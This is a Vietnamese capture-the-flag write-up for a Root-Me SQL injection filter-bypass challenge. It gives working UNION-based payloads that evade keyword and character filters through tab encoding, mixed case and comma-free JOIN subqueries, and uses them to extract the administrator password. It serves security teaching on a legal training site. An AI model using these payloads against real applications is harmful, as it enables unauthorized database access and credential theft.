

# SQL Injection - Blind

**Tên challenge:** Authentication v 0.03

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Filter-bypass)

**Tác giả challenge:** sambecks

**Mục tiêu challenge:** Retrieve the administrator password.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website khá đơn giản, chỉ có 1 chức năng Login ở mục `Authentification` và 1 mục `Membres` như sau:


**B2:** Ta thử đăng nhập với username là `admin` và password là `admin`


Ta thử chèn vài payload liên quan đến SQL Injection vào ở cả 2 trường input thì kết quả vẫn là:

```
login failed
```
=> Ta không thể đoán mò được là chức năng này có bị SQL Injection hay không vì output luôn hiện là `login failed`, cho nên tiếp tục khai thác ở chức năng này thực sự là mò kim đáy biển.

**B3:** Do đó ta thử sang mục `Membres` và click thử vào 1 trong các username trên Website.


=> Xem ra chức năng này cho phép ta thấy được `id`, `username` và `email` của những tài khoản có trong Database.

Ngoài ra, khi ta `View Page Source` của trang thì ta phát hiện được đoạn comment sau:
```
<!--
// CREATE TABLE IF NOT EXISTS `membres` (
//   `id` int(1) NOT NULL AUTO_INCREMENT,
//   `username` VARCHAR(5) NOT NULL,
//   `pass` VARCHAR(20) NOT NULL,
//   `email` VARCHAR( 50 ) NOT NULL,
//   PRIMARY KEY (`id`)
// ) ENGINE=MyISAM  DEFAULT CHARSET=latin1 AUTO_INCREMENT=2 ;
-->
```
Từ Comment trên, ta rút ra được vài manh mối sau:
1. Table `membres` có 4 cột lần lượt là `id`, `username`, `pass`, `email`.
2. `id` là kiểu dữ liệu `int`.
3. Database của trang Web là `MySQL`.

Lúc bây giờ, khi ta nhìn lên URL của trang Web thì ta sẽ thấy URL bây giờ đã có thêm 1 parameter `id`:
```
http://challenge01.root-me.org/web-serveur/ch30/?action=membres&id=1
```

**B4:** Ta thử chèn vài ký tự để thử SQL Injection thì trang Web sẽ trả về kết quả ra sau:


Sau vài lần thử thì ta đã biết được sơ sơ những ký tự mà trang Web đã Filter như: `,` `.` `|` `'` `"` `space` `=` `\` `/` `union` `select` `from` `where`,...

Xem ra, đây là 1 Challenge khá khó vì trang Web đã Filter hầu hết những ký tự quan trọng được dùng khi ta chèn payload SQL Injection. Dù vậy, trước tiên ta cần phải xác định xem liệu trang Web này có thực sự bị SQL Injection không.

**B5:** Ta thử thêm dấu `1;` vào parameter `id` thì trang Web hiện kết quả


=> Ta có thể kết luận trang Web này đang sử dụng câu truy vấn đại khái như:
```
SELECT * FROM membres WHERE id = $user_input

HOẶC

SELECT id, username, email FROM membres WHERE id = $user_input
```

Vì thế, Website mới trả về kết quả dù cho ta thêm dấu `;` vào parameter `id` ( do câu truy vấn trong MySQL thì dấu `;` ở cuối vẫn sẽ được hệ thống xem là bình thường ), nhưng tại sao lại suy đoán có 2 câu truy vấn ?
* **Trả lời:** Vì khi nhìn vào kết quả trên trang Web, có thể là bạn sẽ nghĩ rằng nó chỉ truy vấn có 3 cột thôi nhưng biết đâu nó truy vấn kết quả 4 cột nhưng chỉ hiện ra kết quả 3 cột trừ cột `pass` thì sao ? Cho nên, ta không thể chắn chắc 100% Web truy vấn tới bao nhiêu cột được.

**B6:** Ta tìm cách Bypass các Filter đã biết thì rút ra được các kết quả sau:
1. Ta có thể thay dấu cách `space` bị Filter bằng `%09` ( dấu tab )
2. Ta có thể Bypass chữ `union`, `select`, `from` bằng `UNion`, `SElect`, `From`
3. Ta không cần phải tìm cách Bypass dấu `'` vì `id` là kiểu giá trị nguyên cho nên nó sẽ không có dấu `'` trong câu truy vấn nên ta không cần tìm cách escape dấu `'`

Tới đây, ta đã đi được 70% chặng được vượt mặt WAF SQL Injection của Website vì ta có thể tiêm `union` và `select` vào input.

Nhưng điều quan trọng kế tiếp là làm sao để Bypass dấu phẩy `,` vì nếu không có dấu phẩy ta sẽ không thể mò được số cột của câu truy vấn mà ta đã suy đoán. Ngoài ra, ta cũng không thể `select` tới các cột nếu không có dấu phẩy `,`
```
UNION SELECT COLUMN_1, COLUMN_2, COLUMN_3,..
```

Sau khi mài mò, tìm hiểu đọc các tài liệu thì cuối cùng có 1 cách có thể giúp ta thực thi câu lệnh mà không cần dùng dấu phẩy.

**VD:**
```
SELECT 1,2,3,4 -> SELECT * FROM (SELECT 1) a JOIN (SELECT 2) b JOIN (SELECT 3) c JOIN (SELECT 4) d
```
<u>**Đọc thêm:**</u> [Link](https://book.hacktricks.xyz/pentesting-web/sql-injection)

**B7:** Ta kết hợp payload ở ví dụ trên với các cách bypass Filter mà ta đã rút ra được:
```
-1%09UNion%09SElect%09*%09FRom%09(SElect%091)%09a%09JOIN%09(SELECT%092)%09b%09JOIN%09(SELECT%093)%09c%09JOIN%09(SELECT%094)%09d
```
<u>**Thông tin thêm:**</u> Ta phải thêm `-1` ở phía trước vì muốn `UNION SELECT` hoạt động thì câu truy vấn trước `UNION` phải trả về kết quả NULL, nghĩa là cột `id` không có giá trị `-1` cho nên ta phải đưa vào để câu truy vấn trước không trả về kết quả thì `UNION` phía sau mới được thực thi.


=> Ta đã thành công khai thác SQL Injection.

Ngoài ra, ta cũng kết luận được Website sử dụng câu truy vấn:
```
SELECT * FROM membres WHERE id = $user_input
```

Vấn đề kế tiếp cần giải quyết là làm sao để lấy được `password` của `admin` ?

Từ kết quả trả về ở trên là 1, 2, 4 thì ta có thể thử thay đổi payload như sau:
```
-1%09UNION%09SELECT%09*%09FROM%09(SELECT%091)a%09JOIN%09(SELECT%092)b%09JOIN%09(SELECT%093)c%09JOIN%09(SELECT%09pass%09From%09membres%09LImit%091)d
```
**Cụ thể:** Câu truy vấn trên đã thay đổi ở chỗ `SELECT 4` -> `SELECT pass FROM membres LMIT 1`.

Ta phải thêm `LIMIT 1` vì:
1. Ta không thể Bypass được filter `WHERE` nên không thể thêm điều kiện `WHERE id=1`
2. Kết quả của câu truy vấn `SELECT pass` sẽ trả về toàn bộ giá trị có trong cột `pas` vì vậy ta phải dùng `LIMIT 1` để lấy giá trị đầu tiên của kết quả trả về. Nếu không thì nó sẽ lỗi câu truy vấn.

**Lưu ý:** Bạn chỉ có thể thay đổi payload ở 1 trong những chỗ như `SELECT 1`, `SELECT 2`, `SELECT 4`. Nếu bạn thay đổi ở `SELECT 3` thì kết quả sẽ không được hiển thị lên Website.



=> Ta đã thành công lấy được `password` của `admin`.

<u>**Thông tin thêm:**</u> Nếu như admin không nằm ở `id=1` thì bạn có thể thêm `Offset` để lấy giá trị mà bạn muốn trong tất cả các kết quả trả về.

**VD:**
```
LIMIT 1 OFFSET 1
```
* `LIMIT 1`: Giới hạn số hàng kết quả trả về là 1.
* `OFFSET 1`: Bỏ qua hàng đầu tiên và bắt đầu từ hàng thứ hai.